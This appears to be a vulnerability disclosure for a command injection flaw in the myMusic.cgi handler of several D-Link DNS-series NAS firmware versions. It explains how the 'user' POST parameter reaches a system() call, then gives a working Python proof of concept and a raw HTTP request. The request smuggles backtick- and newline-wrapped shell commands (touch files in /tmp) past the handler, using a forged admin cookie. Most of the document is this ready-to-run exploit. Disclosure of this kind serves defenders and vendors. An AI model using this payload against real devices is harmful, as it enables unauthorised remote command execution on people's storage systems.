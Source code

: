 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)

# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_get_alltracks_editlist function of the file /cgi-bin/myMusic.cgi.  The variable `user`is passed from a POST request and is assigned to `v1` via the `snprintf` function at line 22 and invoked by the `system` command,  it can lead to command execution.

![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723712494786-5a7d1236-65a6-4ac5-843d-aa40b6cf7a99.png#averageHue=%23fdfdf9&clientId=u50529287-a5c3-4&from=paste&height=207&id=u79f740b6&originHeight=207&originWidth=1061&originalType=binary&ratio=1&rotation=0&showTitle=false&size=38997&status=done&style=none&taskId=u8cb6bf83-6e56-4541-a335-a2b70549581&title=&width=1061)
# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/myMusic.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_get_alltracks_editlist&user=`touch%09/tmp/115`&type=1&user=photos&idx=10&cgi_audio_search=%0atouch%09/tmp/112%0a&genre=10&page=19&r=/tmp/"
response = requests.post(url, headers=headers, data=data)
print(response.text)

```

```
POST /cgi-bin/myMusic.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=cgi_get_alltracks_editlist&user=`touch%09/tmp/115`&type=1&user=photos&idx=10&cgi_audio_search=%0atouch%09/tmp/112%0a&genre=10&page=19&r=/tmp/
```
